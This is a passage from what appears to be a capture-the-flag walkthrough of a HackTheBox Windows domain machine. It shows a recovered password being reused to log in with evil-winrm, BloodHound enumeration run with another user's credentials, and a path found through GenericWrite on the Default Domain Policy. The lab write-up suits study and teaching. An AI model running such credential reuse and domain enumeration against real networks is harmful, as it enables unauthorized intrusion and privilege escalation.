 We can see password 'H4ppyFtW183#' for user HHogan, and also he belongs to Remote Management Users (that means we can use evil-winrm into he):

```powershell
PS C:\Windows\Temp\privesc3> net user hhogan
User name                    HHogan
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/6/2023 11:59:34 AM
Password expires             Never
Password changeable          5/7/2023 11:59:34 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/10/2023 5:30:58 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Domain Users         *GPO Managers
The command completed successfully.
```

```bash
❯ evil-winrm -i 10.10.11.3 -u hhogan -p 'H4ppyFtW183#'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\HHogan\Documents> whoami
office\hhogan
```

After grabing domain info with bloodhound-python (`❯ bloodhound-python -c All --use-ldaps -ns 10.10.11.3 -d office.htb -u tstark -p playboy69`), starting neo4j server (`❯ sudo neo4j console`), uploading the files to bloodhound, in Analysis > Find Shortest Paths to Domain Admins I can see that the group "GPO Managers" has GenericWrite privilege on the "Default Domain Policy":
